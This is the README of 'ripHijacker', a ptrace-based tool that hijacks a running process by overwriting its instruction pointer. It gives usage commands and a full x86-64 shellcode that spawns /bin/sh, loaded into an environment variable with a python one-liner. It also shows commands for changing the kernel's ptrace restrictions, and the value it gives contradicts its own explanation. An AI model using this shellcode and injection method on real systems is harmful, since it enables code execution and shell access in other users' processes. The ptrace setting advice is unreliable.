 # ripHijacker

      _       _    _ _ _            _             
     (_)     | |  | (_|_)          | |            
 _ __ _ _ __ | |__| |_ _  __ _  ___| | _____ _ __ 
| '__| | '_ \|  __  | | |/ _` |/ __| |/ / _ \ '__|
| |  | | |_) | |  | | | | (_| | (__|   <  __/ |   
|_|  |_| .__/|_|  |_|_| |\__,_|\___|_|\_\___|_|   
       | |           _/ |                         
       |_|  ~antz~  |__/                          

Usage: ./ripHijacker -p <pid> [-e <environment_variable> -n <target_program name>]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

./ripHijacker -p <target_pid>

..allow you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

./ripHijacker -p <target_pid> -e <environment_variable> -n <target program name> 

..allow you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 1

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Obviously the target program must be compiled with the "-z execstack" option.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace.




